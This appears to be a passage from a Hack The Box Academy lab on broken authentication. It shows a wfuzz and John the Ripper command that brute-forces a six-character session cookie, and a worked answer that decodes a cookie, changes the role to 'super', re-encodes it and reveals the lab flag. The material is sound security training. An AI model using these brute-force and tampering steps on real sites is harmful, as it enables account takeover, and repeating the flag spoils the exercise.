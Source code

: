 Following the example we saw when talking about `Short token` on the `Predictable reset token` section, we could try to brute force a session cookie. The time needed would depend on the length and the charset used to create the token itself. Given this is a guessing game, we think a truly incremental approach that starts with `aaaaaa` to `zzzzzz` would not pay dividends. That is why we prefer to use `John the Ripper`, which generates non-linear values, for our brute-forcing session.

We should examine some cookie values, and after having observed that the length is six and the charset consists of lowercase chars and digits, we can start our attack.

[Wfuzz](https://github.com/xmendez/wfuzz/) can be fed by another program using a classic pipe, and we will use `John` as a feeder. We set `John` in incremental mode, using the built-in "LowerNum" charset that matches our observation (`--incremental=LowerNum`), we specify a password length of 6 chars (`--min-length=6 --max-length=6`), and we also instruct `John` to print the output as stdout (`--stdout`). Then, `wfuzz` uses the payload from stdin (`-z stdin`) and fuzzes the "HTBSESS" cookie (`-b HTBSESS=FUZZ`), looking for the string `"Welcome"` (`--ss "Welcome"`) in server responses for the given URL.

Brute Forcing Cookies

```shell-session
AIceBear@htb[/htb]$ john --incremental=LowerNum --min-length=6 --max-length=6 --stdout| wfuzz -z stdin -b HTBSESS=FUZZ --ss "Welcome" -u https://brokenauthentication.hackthebox.eu/profile.php 

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://brokenauth.hackthebox.eu/
Total requests: <<unknown>>

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

Created directory: ~/john-the-ripper/297/.john
Press 'q' or Ctrl-C to abort, almost any other key for status
000009897:   200        9 L      31 W     274 Ch      "abaney"
```

This attack could take a long time, and it is infeasible if the token is lengthy. Chances are higher if cookies last longer than a single session, but do not expect a quick win here. We encourage you to practice using a PHP file you can download [here](https://academy.hackthebox.com/storage/modules/80/scripts/bruteforce\_cookie\_php.txt). Please read the file carefully and try to make it print the congratulations message.

**Questions**

Tamper the session cookie for the application at subdirectory /question1/ to give yourself access as a super user. What is the flag?

```bash
#https://gchq.github.io/CyberChef
#URL Decode -> From Base64 -> From Hex
user:htbuser;role:student;time:1710767192
#change role into super
user:htbuser;role:super;time:1710767192
#To Hex(Delimiter None) -> To Base64 -> URL Encode
#now change the cookie and got the flag
#Your flag is HTB{mu1tist3p_3nc0d1ng_15_uns4f3}
```
